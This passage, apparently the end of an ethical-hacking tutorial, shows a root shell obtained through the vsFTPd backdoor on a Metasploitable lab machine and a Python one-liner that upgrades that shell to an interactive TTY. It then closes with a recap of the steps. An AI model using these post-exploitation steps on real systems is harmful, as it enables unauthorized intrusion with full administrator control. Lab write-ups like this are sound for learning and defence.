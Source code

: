 Having successfully exploited the vsFTPd vulnerability, we've achieved a significant milestone in ethical hacking: gaining root access to the target machine. This level of access grants us the highest privileges, essentially making us the system's administrator.
```terminal
[*] Found shell.
[*] Command shell session 1 opened (192.168.11.128:44003 
  -> 192.168.11.135:6200) at 2023-09-10 11:52:35 -0400

id
uid=0(root) gid=0(root)
whoami
root
pwd
/
```
### UPGRADING OUR SHELL TO TTYs
To enhance our level of control over the exploited system, we can upgrade our current shell to a fully interactive TTY (teletypewriter) session. This provides a more responsive and feature-rich terminal experience, making it easier to interact with the system.
Here's how you can upgrade your shell to a TTY using Python:
```terminal
python -c 'import pty; pty.spawn("/bin/bash")'
root@metasploitable:/# 
```
Now, you have a fully interactive TTY shell, which allows for more advanced interactions with the target system. This can be particularly useful for performing tasks, exploring the system, and carrying out further ethical hacking activities.

## Conclusion:
Throughout this article, we've covered a range of essential concepts and techniques:
- **Enumeration**: We began by exploring the basics of scanning, version detection, and script enumeration, essential steps in understanding the target system.

- **Exploitation**: We delved into the process of identifying and executing exploits, demonstrating the importance of responsible testing and knowledge of vulnerabilities.

- **Gaining Control**: We achieved root access on the target system, highlighting the significance of securing systems against unauthorized intrusion.

- **Upgrading to TTY**: We enhanced our control with an interactive TTY shell, providing a more efficient and responsive hacking environment.
Thanks for reading. **Let's learn, explore, and hack together**. **Join us on Discord [here](https://discord.gg/wBT9wr9ruG)**. 